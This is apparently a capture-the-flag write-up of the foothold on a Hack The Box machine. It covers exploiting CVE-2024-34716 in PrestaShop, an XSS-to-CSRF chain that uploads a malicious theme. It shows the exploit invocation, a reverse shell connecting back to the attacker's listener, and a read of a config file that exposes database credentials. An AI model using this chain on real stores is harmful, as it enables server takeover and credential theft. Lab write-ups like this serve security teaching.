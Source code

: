 ## FOOTHOLD
---
### PrestaShop exploit
---
While researching online, we came across this <a href="https://github.com/aelmokhtar/CVE-2024-34716" target="_blank">exploit</a> 
This exploit achieves RCE on PrestaShop by chaining XSS and CSRF vulnerabilities. A malicious PNG file containing JavaScript is uploaded via the `/contact-us` page. When a customer service agent views the attachment, the XSS payload executes, extracting CSRF tokens from the admin panel. Using these tokens, a malicious theme containing a reverse shell is uploaded. A `.htaccess` file ensures access to the payload, allowing the attacker to trigger the reverse shell and gain control over the server. If you need more information on how it works, here is the <a href="https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/" target="_blank">explanation</a> 

````bash
❯ python3 exploit.py --url http://shop.trickster.htb --email adam@trickster.htb --local-ip 10.10.14.9 --admin-path admin634ewutrx1jgitlooaj
[X] Starting exploit with:
	Url: http://shop.trickster.htb
	Email: adam@trickster.htb
	Local IP: 10.10.14.9
	Admin Path: admin634ewutrx1jgitlooaj
Serving at http.Server on port 5000
[X] Ncat is now listening on port 12345. Press Ctrl+C to terminate.
listening on [any] 12345 ...
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
Request: GET /ps_next_8_theme_malicious.zip HTTP/1.1
Response: 200 -
10.10.11.34 - - [31/Jan/2025 12:26:50] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -
Request: GET /ps_next_8_theme_malicious.zip HTTP/1.1
Response: 200 -
10.10.11.34 - - [31/Jan/2025 12:26:55] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.34] 47668
Linux trickster 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 11:27:02 up 11:55,  0 users,  load average: 0.13, 0.12, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
````

As expected, upon entering as `www-data`, our focus is to navigate to the web application's configuration files and search for database credentials or user information. If found, we will attempt to log in as those users to check if their credentials have been reused.

````bash
www-data@trickster:~/prestashop/app/config$ cat parameters.
cat: parameters.: No such file or directory
www-data@trickster:~/prestashop/app/config$ cat parameters.php 
<?php return array (
  'parameters' => 
  array (
    'database_host' => '127.0.0.1',
    'database_port' => '',
    'database_name' => 'prestashop',
    'database_user' => 'ps_user',
    'database_password' => 'prest@shop_o',
    'database_prefix' => 'ps_',
    'database_engine' => 'InnoDB',
    'mailer_transport' => 'smtp',
    'mailer_host' => '127.0.0.1',
````